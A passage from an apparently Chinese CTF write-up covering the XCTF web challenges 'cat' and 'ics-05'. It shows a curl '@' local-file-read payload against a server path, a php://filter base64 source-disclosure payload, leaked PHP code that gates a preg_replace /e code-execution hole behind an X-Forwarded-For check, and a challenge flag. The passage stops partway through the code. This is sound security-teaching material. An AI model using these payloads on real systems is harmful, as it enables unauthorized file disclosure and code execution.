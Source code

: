 > RTFM of PHP CURL===>>read the fuck manul of PHP CURL???

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190707235347811.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3p6X0NhbGVi,size_16,color_FFFFFF,t_70)

这里通过对报错信息的仔细查找，似乎找到了网站的绝对地址，窃喜使用地址访问未果，百度找到方法应该要加@输入@/opt/api/dnsapi/views.py果然再一次出现了报错信息，想必距离答案越来越近了，在查找cat、database、XCTF等关键词，哈哈找到关于database的内容：

继续查询**url=@/opt/api/database.sqlite3**

![cat](images/web/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C_cat.png)

得到flag

```
WHCTF{yoooo_Such_A_G00D_@}
```

[参考1](https://blog.csdn.net/zz_Caleb/article/details/95041031)

[参考2](https://blog.csdn.net/harry_c/article/details/98482494)





### ics-05

#### 考点：php伪协议、preg_replace()函数的/e漏洞进行代码执行

这道题还是比较容易的，我们进入题目后只有一个页面能点进去

![img](https://img2018.cnblogs.com/blog/1763153/201908/1763153-20190820230126540-1535354163.png)

因为写这道之前刚刚写了一道php伪协议的题就随手用伪协议来了一波

```
?page=php://filter/read=convert.base64-encode/resource=index.php
```

ok，成功读取index.php，我们拿base64解码一下，其中让我们注意到了这个

```php
//方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试

if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
```